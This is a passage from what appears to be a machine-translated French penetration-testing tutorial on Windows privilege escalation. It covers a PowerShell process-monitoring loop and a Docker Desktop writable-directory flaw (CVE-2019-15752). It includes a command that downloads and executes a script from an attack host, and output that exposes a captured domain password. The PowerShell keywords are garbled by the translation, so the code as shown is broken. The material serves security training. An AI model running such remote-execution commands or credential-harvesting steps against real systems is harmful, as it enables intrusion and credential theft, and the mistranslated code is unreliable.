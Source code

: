 Surveillance des lignes de commande de processus

```
tandis que($true)
{

   $process = Get-WmiObject Win32_Process | Ligne de commande Select-Object
   Début-Sommeil 1
   $process2 = Get-WmiObject Win32_Process | Ligne de commande Select-Object
   Compare-Object -ReferenceObject $process -DifferenceObject $process2

}

```

#### Exécution du script Monitor sur l'hôte cible

Nous pouvons héberger le script sur notre machine d'attaque et l'exécuter sur l'hôte cible comme suit.

Exécution du script Monitor sur l'hôte cible

```
PS C:\htb> IEX (iwr 'http://10.10.10.205/procmon.ps1')

InputObject SideIndicator
----------- -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid :{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>
@{CommandLine="C:\Windows\system32\cmd.exe" } =>
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4} =>
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd} =>
@{CommandLine="C:\Windows\system32\backgroundTaskHost.exe" -NomServeur :CortanaUI.AppXy7vb4pc2... <=

```

Cela réussit et révèle le mot de passe de l'utilisateur de domaine `sqlsvc` , que nous pourrions ensuite éventuellement utiliser pour accéder à l'hôte SQL02 ou potentiellement trouver des données sensibles telles que les informations d'identification de la base de données sur le partage `backups` .

* * * * *

Services vulnérables
-------------------

Nous pouvons également rencontrer des situations où nous atterrissons sur un hôte exécutant une application vulnérable qui peut être utilisée pour élever les privilèges grâce à l'interaction de l'utilisateur. [CVE-2019--15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) en est un excellent exemple. Il s'agissait d'une vulnérabilité dans Docker Desktop Community Edition avant 2.1.0.1. Lorsque cette version particulière de Docker démarre, elle recherche plusieurs fichiers différents, notamment `docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., qui n'existent pas avec une installation Docker. Le programme recherche ces fichiers dans `C:\PROGRAMDATA\DockerDesktop\version-bin\`. Ce répertoire a été mal configuré pour autoriser un accès en écriture complet au groupe `BUILTIN\Users` , ce qui signifie que tout utilisateur authentifié sur le système peut y écrire un fichier (comme un exécutable malveillant).

